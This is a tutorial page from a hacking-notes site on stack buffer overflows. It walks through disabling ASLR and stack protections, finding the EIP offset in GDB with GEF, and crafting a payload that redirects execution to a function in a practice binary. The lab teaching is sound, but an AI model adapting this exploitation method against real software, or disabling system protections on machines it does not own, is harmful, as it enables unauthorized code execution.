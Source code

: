 ```yaml
---
title: "💥 System & Service Exploitation"
summary: "Attacking operating systems, network services, and applications to gain unauthorized access, including insecure deserialization, buffer overflows, and CMS exploits."
weight: 3
---
```


<style>

img {
    display: flex !important;
    margin: 0 auto !important;
    justify-content: center !important;
    border-radius: 14px;
    border: 2px solid #4a90e2;
    box-shadow: 0 2px 6px rgba(0, 0, 0, 0.1);
    transition: box-shadow 0.3s ease, transform 0.3s ease;
}
img:hover {
    box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
    transform: scale(1.03);
}

</style>

## BufferOverflow

A **buffer overflow** occurs when a program writes more data to a buffer (a **memory area**) than it can handle. This can overwrite important data and, in some cases, allow an attacker to **execute malicious code**.

![bof](/images/hacking/bof/bof.png)

---

### How it happens:

- **Buffer**: A reserved area in memory for storing data.

- **Overflow**: If the program does not check the size of the data, it can overwrite adjacent memory areas.

---

### Consequences:

- Data corruption and program crashes.

- Execution of malicious code if an attacker exploits the vulnerability.

---

### Prevention:

- Validate data sizes.

- Use **safe functions**.

- Implement protections like **ASLR** and **DEP**.

---

### Introduction to Buffer Overflow: Invoking Functions via Buffer Overflows

> The practice files are available on my GitHub: [**BufferOverflow**](https://github.com/Conper/BufferOverflow).

To begin, we will explore how a **buffer overflow** can be exploited to invoke a specific function within a program. This process involves manipulating memory to redirect the program's execution flow to a desired function.

To practice this **buffer overflow** case, we will use a **C program** called `secret.c` and compile it with the following command:

```bash
gcc -g -fno-stack-protector -z execstack -m32 secret.c -o secret
```

> "If `gcc -g -fno-stack-protector -z execstack -m32 secret.c -o secret` doesn’t work and gives an error about `gets` being implicitly declared, just add this line after your `#include`:  
> `char *gets(char *);`  
> This tells the compiler what `gets` looks like, even if it's not officially declared anymore."

**Address Space Layout Randomization** (**ASLR**) is a security technique that **randomizes memory addresses** to protect against certain attacks. 

To check if **ASLR** is active for our binary `secret`:

```bash
ldd secret
```

![bof1](/images/hacking/bof/bof1.png)

**ASLR** is set to 2 by default. To disable **ASLR** for easier **buffer overflow** exploitation, run:

```bash
sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```
This change will persist until the next reboot.

The binary `secret` prompts for user input with the message "Input your data:". When the input exceeds the expected number of characters, it triggers a **segmentation fault** due to a **buffer overflow**. This occurs because the program doesn't properly handle or validate the input size, causing it to **overwrite adjacent memory areas**.

![bof2](/images/hacking/bof/bof2.png)


To perform the **buffer overflow**, we will use **GDB** with **GEF** (GDB Enhanced Features).
You can find the **GEF** repository at: [**GEF**](https://github.com/hugsy/gef)

To run the binary with **GDB**, use the command:

```bash
gdb ./secret
```

To determine the **offset** (how many A's you need to input to reach and **overwrite** the **EIP**), we will use the command **pattern create**:

```bash
pattern create
```

![bof3](/images/hacking/bof/bof3.png)

**Generate a pattern** of characters that we can use to determine the **offset** when running the program. Instead of using just a series of A's, we’ll run the program with this character pattern.

We would run it with:

```bash
r <<< 'character_pattern'
```
The `<<<` operator is used to provide a string directly as input to a command or program.

Now we can determine how many characters are needed to reach the **EIP** using the following command:

```bash
pattern offset $eip
```

![bof4](/images/hacking/bof/bof4.png)

In this case, the offset is 76, so we can run this command to verify that the characters are correct and that we will **overwrite the EIP** with the value BBBB:

```bash
r <<< $(python3 -c 'print("A"*76 + "B"*4)')
```

The **EIP** (**Extended Instruction Pointer**) is a **CPU register** that tracks the **address of the next instruction** to execute, and in a **buffer overflow** attack, overwriting it allows you to **control the execution flow** by redirecting it to your chosen code or exploit.

![bof5](/images/hacking/bof/bof5.png)

Additionally, the `checksec` command in **GDB** checks security features like `NX (No Execute)` protection, which prevents code from running in certain memory regions. It helps you see which security mechanisms are active for a binary.

![bof6](/images/hacking/bof/bof6.png)

In our case, we want to execute the function named `secret` that is within the binary. To achieve this, we’ll use the command `p secret` to get the address of the `secret` function. We can then overwrite the **EIP** with this address to **redirect execution** to the `secret` function.

```bash
p FUNCTION_NAME
```

![bof7](/images/hacking/bof/bof7.png)

Now, we need to format the address in **little-endian** (e.g., `0x080484b6` as `\xb6\x84\x04\x08`) because systems store multi-byte values in this order, ensuring the function is executed correctly.

In our case it will be: 0x5655619d -> \x9d\x61\x55\x56

We will now create the payload using `sys.stdout.buffer.write()` instead of `print()` because it writes the data as raw bytes, ensuring that each byte is preserved exactly as needed. This is crucial for accurately overwriting the **EIP** with the correct memory address, especially when handling non-printable characters in the exploit.

Next, we'll execute the binary with our crafted payload using the command:

```bash
./secret <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x9d\x61\x55\x56")')
```

This command runs the `secret` binary while injecting the payload directly, aiming to overwrite the **EIP** with the address of the `secret` function.

![bof8](/images/hacking/bof/bof8.png)

As a result, the function was executed, printing the message "**You have exploited the buffer overflow!**" before the program crashed with a **segmentation fault**.

You can also save the payload in a **Python script** and execute it when running the `secret` binary, simplifying the injection process.

```python3
import sys

secret_func_address = b'\x9d\x61\x55\x56'
payload = b'A' * 76 + secret_func_address

sys.stdout.buffer.write(payload)
```

![bof9](/images/hacking/bof/bof9.png)
